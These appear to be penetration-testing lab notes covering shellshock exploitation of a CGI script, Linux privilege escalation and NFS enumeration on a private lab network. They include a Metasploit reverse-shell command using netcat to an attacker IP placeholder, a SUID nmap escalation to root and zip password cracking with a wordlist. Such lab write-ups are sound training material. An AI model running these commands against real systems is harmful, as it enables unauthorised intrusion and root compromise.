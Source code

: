 ```
./dirsearch.py -u http://172.16.80.22/ -e cgi -r -f
   // -r = recursive // -f = force // -e = extension
   /cgi-bin/calender.cgi
```

#### msf again
// knowing that CGI programs, in particular, are of primary concern in regards to shellshock vulnerabilities, we use metasploit **apache_mod_cgi_bash_env** module to check For exploitability, making sure to configure the correct options, including the TARGETURI value:

use auxiliary/scanner/http/apache_mod_cgi_bash_env
```
set options
set targeturi cgi-bin/calendar.cgi
set cmd "/bin/nc <attacker_IP> 1234 -e /bin/sh"
```

> open a listener and run, we have a shell as www-data

#### upgrade the shell as usual
```
python -c 'import pty; pty.spawn("/bin/sh")'
export TERM=xterm
```

#### search For SUID root executables
```
find / -perm -4000 2>/dev/null
```

// we found that nmap is available

```
nmap --interactive
!sh

```

> we have root access


## Lab 4 -  Linux Exploitation - Lateral Movement 

    Netblock: 172.16.80.1/24

    Domain: robotstogo.localdomain

### Enumerate NFS shares
```
nmap --script nfs-ls 172.16.80.27
```

#### Crack the .zip password
```
fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt backup.zip 
```
